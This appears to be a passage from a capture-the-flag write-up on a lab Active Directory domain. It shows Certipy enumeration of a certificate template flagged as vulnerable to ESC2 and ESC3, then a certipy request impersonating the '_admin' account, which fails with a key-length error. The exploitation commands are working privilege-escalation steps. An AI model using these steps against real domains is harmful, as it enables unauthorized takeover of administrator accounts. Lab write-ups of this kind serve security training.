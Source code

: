 ```
    Enrollment Flag                     : None
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Any Purpose
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 100 years
    Renewal Period                      : 75 years
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SHIBUYA.VL\t1_admins
                                          SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
      Object Control Permissions
        Owner                           : SHIBUYA.VL\_admin
        Write Owner Principals          : SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
                                          SHIBUYA.VL\_admin
        Write Dacl Principals           : SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
                                          SHIBUYA.VL\_admin
        Write Property Principals       : SHIBUYA.VL\Domain Admins
                                          SHIBUYA.VL\Enterprise Admins
                                          SHIBUYA.VL\_admin
    [!] Vulnerabilities
      ESC2                              : 'SHIBUYA.VL\\t1_admins' can enroll and template can be used for any purpose
      ESC3                              : 'SHIBUYA.VL\\t1_admins' can enroll and template has Certificate Request Agent EKU set

```

### ESC2

It's similar to `ESC1`, just follow the steps from:
- [esc2-any-purpose-eku](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc2-any-purpose-eku)
- [esc2-misconfigured-certificate-templates](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-certificate-services/#esc2-misconfigured-certificate-templates)


```
└─$ certipy req -u nigel.mills@shibuya.vl -p '<REDACTED>' -dc-ip 10.10.84.227 -upn '_admin@shibuya.vl' -ca shibuya-AWSJPDC0522-CA -template ShibuyaWeb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094811 - CERTSRV_E_KEY_LENGTH - The public key does not meet the minimum size required by the specified certificate template.
[*] Request ID is 4
Would you like to save the private key? (y/N) y
[*] Saved private key to 4.key
[-] Failed to request certificate
```
